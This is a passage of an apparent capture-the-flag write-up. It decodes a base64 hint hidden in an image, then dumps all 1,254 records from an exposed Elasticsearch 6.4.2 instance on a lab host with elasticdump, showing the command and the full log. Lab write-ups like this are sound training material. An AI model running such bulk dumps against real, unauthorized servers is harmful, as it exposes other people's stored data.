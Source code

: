 
If I download the image and look at it with <b>strings</b> I find a <b>base64</b> encoded string at the bottom.

```
bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==
```
And if I <b>base64</b> decode that string I get a message.
```
# echo "bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==" | base64 -d
la aguja en el pajar es "clave"
```
The message translates to <b>The needles in the haystack is "key"</b>.

For now I can't do anything with that information so I now check out port 9200. First thing I see is some json data refering to <b>elasticsearch v6.4.2</b>
```
name	"iQEYHgS"
cluster_name	"elasticsearch"
cluster_uuid	"pjrX7V_gSFmJY-DxP4tCQg"
version
number	"6.4.2"
build_flavor	"default"
build_type	"rpm"
build_hash	"04711c2"
build_date	"2018-09-26T13:34:09.098244Z"
build_snapshot	false
lucene_version	"7.4.0"
minimum_wire_compatibility_version	"5.6.0"
minimum_index_compatibility_version	"5.0.0"
tagline	"You Know, for Search"
```
I have no idea what <b>elasticsearch</b> is so I do some reading on it. Turns out you can interact with it and dump all of the data that is stored. To do this I am going to use *[this tool from github](https://github.com/taskrabbit/elasticsearch-dump)*. 
```
./elasticdump --input=http://10.10.10.115:9200 --output=/root/Downloads/dump --type=data
Sun, 22 Sep 2019 03:15:18 GMT | starting dump
Sun, 22 Sep 2019 03:15:19 GMT | got 100 objects from source elasticsearch (offset: 0)
Sun, 22 Sep 2019 03:15:19 GMT | sent 100 objects to destination file, wrote 100
Sun, 22 Sep 2019 03:15:19 GMT | got 100 objects from source elasticsearch (offset: 100)
Sun, 22 Sep 2019 03:15:19 GMT | sent 100 objects to destination file, wrote 100
Sun, 22 Sep 2019 03:15:19 GMT | got 100 objects from source elasticsearch (offset: 200)
Sun, 22 Sep 2019 03:15:19 GMT | sent 100 objects to destination file, wrote 100
Sun, 22 Sep 2019 03:15:19 GMT | got 100 objects from source elasticsearch (offset: 300)
Sun, 22 Sep 2019 03:15:19 GMT | sent 100 objects to destination file, wrote 100
Sun, 22 Sep 2019 03:15:20 GMT | got 100 objects from source elasticsearch (offset: 400)
Sun, 22 Sep 2019 03:15:20 GMT | sent 100 objects to destination file, wrote 100
Sun, 22 Sep 2019 03:15:20 GMT | got 100 objects from source elasticsearch (offset: 500)
Sun, 22 Sep 2019 03:15:20 GMT | sent 100 objects to destination file, wrote 100
Sun, 22 Sep 2019 03:15:24 GMT | got 100 objects from source elasticsearch (offset: 600)
Sun, 22 Sep 2019 03:15:24 GMT | sent 100 objects to destination file, wrote 100
Sun, 22 Sep 2019 03:15:24 GMT | got 100 objects from source elasticsearch (offset: 700)
Sun, 22 Sep 2019 03:15:24 GMT | sent 100 objects to destination file, wrote 100
Sun, 22 Sep 2019 03:15:24 GMT | got 100 objects from source elasticsearch (offset: 800)
Sun, 22 Sep 2019 03:15:24 GMT | sent 100 objects to destination file, wrote 100
Sun, 22 Sep 2019 03:15:25 GMT | got 100 objects from source elasticsearch (offset: 900)
Sun, 22 Sep 2019 03:15:25 GMT | sent 100 objects to destination file, wrote 100
Sun, 22 Sep 2019 03:15:25 GMT | got 100 objects from source elasticsearch (offset: 1000)
Sun, 22 Sep 2019 03:15:25 GMT | sent 100 objects to destination file, wrote 100
Sun, 22 Sep 2019 03:15:29 GMT | got 100 objects from source elasticsearch (offset: 1100)
Sun, 22 Sep 2019 03:15:29 GMT | sent 100 objects to destination file, wrote 100
Sun, 22 Sep 2019 03:15:29 GMT | got 54 objects from source elasticsearch (offset: 1200)
Sun, 22 Sep 2019 03:15:29 GMT | sent 54 objects to destination file, wrote 54
Sun, 22 Sep 2019 03:15:29 GMT | got 0 objects from source elasticsearch (offset: 1254)
Sun, 22 Sep 2019 03:15:29 GMT | Total Writes: 1254
```